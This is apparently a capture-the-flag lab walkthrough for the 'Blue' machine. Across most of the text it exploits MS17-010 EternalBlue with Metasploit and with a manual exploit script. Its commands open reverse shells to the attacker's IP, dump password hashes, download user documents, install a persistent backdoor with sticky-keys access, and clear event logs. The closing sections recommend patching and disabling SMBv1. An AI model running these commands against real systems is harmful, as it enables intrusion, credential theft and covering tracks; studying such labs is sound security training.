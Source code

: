 # Blue Walkthrough

## Overview
The "Blue" machine demonstrates the exploitation of MS17-010 (EternalBlue), a critical SMB vulnerability that affected Windows systems and was used in major ransomware attacks like WannaCry. This walkthrough covers the complete process of attacking and gaining control of the Blue machine.

## Reconnaissance and Enumeration

### Initial Nmap Scan
```bash
nmap -sV -p- --min-rate 5000 <target_ip>
```

**Key findings:**
- Port 135: msrpc
- Port 139: netbios-ssn
- Port 445: microsoft-ds (SMB)
- Port 3389: ms-wbt-server (RDP)
- Windows operating system detected

### Targeted SMB Scan
```bash
nmap --script smb-vuln* -p 445 <target_ip>
```

**Key findings:**
- MS17-010 vulnerability detected
- SMB signing not required

## Vulnerability Analysis

### MS17-010 (EternalBlue)
- Critical SMB vulnerability in Windows systems
- Allows remote code execution without authentication
- Affects Windows 7, Windows Server 2008, and other Windows versions
- Patched by Microsoft in March 2017 (MS17-010)
- Used in WannaCry ransomware attack in May 2017

## Exploitation Process

### Method 1: Using Metasploit Framework

1. **Start Metasploit**:
   ```bash
   msfconsole
   ```

2. **Search for EternalBlue exploits**:
   ```bash
   search ms17-010
   ```

3. **Select the appropriate exploit**:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

4. **Configure the exploit**:
   ```bash
   set RHOSTS <target_ip>
   set LHOST <your_ip>
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   ```

5. **Run the exploit**:
   ```bash
   exploit
   ```

6. **Verify Meterpreter shell**:
   ```bash
   getuid
   sysinfo
   ```

### Method 2: Manual Exploitation (Optional)

1. **Clone the exploit repository**:
   ```bash
   git clone https://github.com/worawit/MS17-010.git
   cd MS17-010
   ```

2. **Generate shellcode**:
   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f raw -o shellcode.bin
   ```

3. **Modify the exploit script** (zzz_exploit.py):
   - Update the USERNAME and PASSWORD if needed
   - Adjust paths to shellcode files

4. **Start a netcat listener**:
   ```bash
   nc -lvnp 4444
   ```

5. **Run the exploit**:
   ```bash
   python zzz_exploit.py <target_ip>
   ```

## Post-Exploitation

### Privilege Escalation (If Needed)
- Check current privileges
  ```
  getuid
  ```
- Note: EternalBlue typically gives SYSTEM access directly

### System Enumeration
```
sysinfo
ipconfig
getuid
hashdump
```

### Finding Flags

1. **Navigate the filesystem**:
   ```
   cd C:\\
   dir
   cd Users
   dir
   ```

2. **Search for flags**:
   ```
   search -f flag*.txt
   search -f proof.txt
   search -f user.txt
   ```

3. **Read the flags**:
   ```
   cat "C:\path\to\flag.txt"
   ```

### Data Exfiltration

1. **Accessing user files**:
   ```
   cd C:\Users\<username>\Documents
   dir
   ```

2. **Looking for sensitive information**:
   ```
   search -f *.txt
   search -f *.docx
   search -f *.xlsx
   ```

3. **Downloading interesting files**:
   ```
   download "C:\path\to\interesting_file.docx"
   ```

## Persistence (Optional)

1. **Create a backdoor user**:
   ```
   run post/windows/manage/enable_rdp
   run post/windows/manage/sticky_keys
   ```

2. **Install a persistent backdoor**:
   ```
   run persistence -X -i 30 -p 443 -r <your_ip>
   ```

## Cleanup

1. **Remove artifacts**:
   ```
   clearev
   ```

2. **Exit session**:
   ```
   exit
   ```

## Mitigation Recommendations

If this were a real engagement, recommend:

1. **Apply Security Updates**: Install MS17-010 patch immediately
2. **Disable SMBv1**: Disable outdated and vulnerable SMB version
3. **Network Segmentation**: Restrict SMB traffic to necessary segments only
4. **Regular Patching**: Implement a robust patch management process
5. **Enable SMB Signing**: Require SMB signing on all systems
6. **Implement Application Whitelisting**: Prevent unauthorized code execution

## Lessons Learned

- Unpatched vulnerabilities pose severe security risks
- Critical exploits can provide direct system-level access
- Windows file sharing protocols require careful security configuration
- Legacy protocols (SMBv1) should be disabled when not required
